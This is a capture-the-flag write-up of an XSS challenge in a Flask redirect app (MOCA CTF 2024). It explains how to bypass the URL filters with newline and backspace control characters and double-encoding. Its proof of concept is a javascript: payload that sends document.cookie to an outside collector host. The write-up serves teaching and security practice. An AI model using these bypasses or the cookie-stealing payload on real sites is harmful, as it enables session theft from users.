 ```yaml
---
description: 500 pts
---
```


# RaaS \[WEB]

## RaaS \[WEB] - MOCA CTF 2024 Quals

***

![](assets/MocaCTF\_logo.png)

## TL;DR

* The challenge involved achieving User Interaction XSS inside a Flask template through the `javascript:` pseudo protocol. This was accomplished bypassing a filtering regex and blacklisted characters.

## 0. Description

> A simple click-to-xss to warmup.

***

### 1. Challenge scenario

We're given a form in which it is possible to insert a link, a title, and be redirected to that URL. There is also the possibility of sending this link to the admin who will in turn be redirected.

![](assets/RaaS\_firstlook.png)

Source code is provided, so we'll look into that to understand what's happening.

### 1.1) Source code analysis

The project is divided into two parts: the main application and the admin bot. We'll look into the application code first.

**app.py**

```python
from flask import Flask, request, render_template, Response, redirect,jsonify, make_response, g, redirect, send_file
import requests
import urllib.parse
import re

app = Flask(__name__)

@app.route('/', methods=['GET'])
def main_page():
    return render_template('home.html')

def check_url(url):
    url = url.lower()
    pattern = r'[()=$`]'
    if bool(re.search(pattern, url, re.IGNORECASE | re.DOTALL)):
        return False
    if url.startswith("j") or "javascript" in url:
        return False
    return True

def check_title(title):
    if "<" in title or ">" in title:
        return False
    return True

@app.route('/redirectTo', methods=['GET'])
def redirect_to():

    url = request.args.get("url")
    title = request.args.get("title")
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"

    if not isinstance(title,str) or not isinstance(url,str):
        return render_template('redirect.html',url=default_url, title="title")
    url = url.strip()

    if not check_url(url) or not check_title(title):
        return render_template("redirect.html", title=title, url=default_url)
    return render_template('redirect.html',url=url, title=title)

@app.route('/redirectAdmin', methods=['GET'])
def redirect_admin():
    default_url = "https://www.youtube.com/watch?v=xvFZjo5PgG0&ab_channel=Duran"
    admin_bot = "http://raas-admin:3000/report_to_admin"
    url = request.args.get("url")
    title = request.args.get("title")
    
    if not isinstance(title,str) or not isinstance(url,str):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    url = url.strip()
    if not check_url(url) or not check_title(title):
        requests.post(admin_bot, json={"url":default_url, "title":"title"})
        return jsonify({"message":"done"}), 201

    requests.post(admin_bot, json={"url":url, "title":title})
    return jsonify({"message":"done"}), 201


if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)
```

Clicking on the "_Get Redirected!_" button will trigger the `/redirectTo` route, which is anyway triggered also by the "_Redirect the Admin!_" button that executes the `/redirectAdmin` route. The first endpoint accepts the `url` and `title` parameters which must be strings and later passed to the `check_url()` and `check_title()` sanitizing functions. If we can bypass that with a working payload, we'll have XSS. The second endpoint forwards the given URL to the admin bot, which simply goes to the `/redirectTo` endpoint with our inputs, and simulates a button click on the "_Follow Link_" button.

![](assets/Raas\_redirectTo.png)

The `check_url` function aims to sanitize the URL input by converting it to lowercase, hence avoiding all the lowercase-uppercase payloads like `jAvAsCriPt:aLeRt(1)`. It also check for the presence of some special characters with the regex ``r'[()=$`]'`` that will limit us later on exploitation. Particularly, it ensures the URL does not start with "j" character or contain the substring "javascript". This comes out as the main limitation for us, since it should block the payloads with the javascript pseudo protocol.

At this point, a simple way out will be any other working pseudo protocol XSS payload like `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4`. However, if we try so, the browser will insult us with:

![](assets/Raas\_browserblock.png)

My approach at this point was to split the checks individually in the source code an try to bypass them one by one.

## 2. Exploitation

Below I will explain how I bypassed each of them, doing it with a bottom-up approach cause I found it more convenient.

### 2.1) "javascript" not allowed bypass

We're not allowed to use the string "javascript" anywhere in our URL, so...just don't use it! We will write

```
java
script
```

instead. Here we are using a **newline character** to bypass the check. Since in the Python side `"java\x0Ascript" != "javascript"`, but in the broswer `java%0Ascript` will still be considered a valid url for the `javascript` protocol.

{% hint style="info" %}
NOTE\
Our input get stripped before getting into che sanitizing function, however Python [strip()](https://docs.python.org/3.11/library/stdtypes.html#str.strip) function only removes **leading and trailing characters**.
{% endhint %}

Even though this is a common bypass, I never actually knew why this was working. Researching for bypasses for the javascript pseudo protocol I've found [this blog](https://aszx87410.github.io/beyond-xss/en/ch1/javascript-protocol/) which was helpful to me to find out the reason why whitespaces are allowed in this situation and find out the bypass for the next filter. The reason seems to rely in the [URL spec standard](https://url.spec.whatwg.org/) which removes any ASCII tab or newline from inputs.

### 2.2) doesn't starts with "j" bypass

This one was tougher. the strip function that was allowing me to bypass the previous check was sending me crazy on this one. Majority of payloads broke the `javascript` protocol: even if they bypassed the checks, they would just get included as part of the web application URL (e.g `url=/java%0Ascript:payload`). Another example is what I initially thought to be a NULL byte bypass, which caused instead a strange behaviour:

![](assets/Raas\_NULLbyteinurl.png)

As you can see, it bypassed the python checks but in the button preview (left corner) it was mutated in some non printable character, invalidating it as protocol. However, i felt in being in the right path, until the previous blog confirmed my sensations.

![](assets/RaaS\_controlcharsinURL.png)

Control Characters are allowed?? It did, in fact.\
Using the **BACKSPACE** (`%08`) character allowed me to bypass the python filter and still getting a valid url for the javascript protocol! And any of the [ASCII Control Characters](https://en.wikipedia.org/wiki/Control\_character) below would have probably get the job done.

![](assets/Raas\_ASCIIcontrolchars.png)

### 2.3) regex bypass

This was probably the easiest check to bypass, since javascript is very permissive in expressions that can be created even with a few symbols, it is no coincidence that there are many esoteric languages ​​on javascript such as [JSFuck](https://jsfuck.com/) that manage to create valid expressions using only a few symbols.

{% hint style="info" %}
Fun Fact

[here](http://aem1k.com/aurebesh.js/) I've found some of the funniest javascript esoteric shit expression while doing this challenge, like...how the fuck i can popup alert with fucking Egyptian hieroglyphs, but a simple NULL byte will break the shit out of the payload??
{% endhint %}

However, searching brainlessly "XSS payloads without parentheses" was enough since i found many working payloads inside [this repo](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md). I was also able to double encode inside the payload after the `javascript:` since javascript was decoding it.

### 2.4) PoC

```javascript
%08java%0Ascript%3Afetch%2528'http://eeeee.free.beeceptor.com/'%2Bdocument.cookie%2529
// javascript:fetch('http://eeeee.free.beeceptor.com/'+document.cookie)
```

![](assets/RaaS\_finalpayload.png)

> `PWNX{WH0_D035'N7_l0V3_4_g00D_0l'_W4F?}`

***

#### TAGS: #XSS #flask
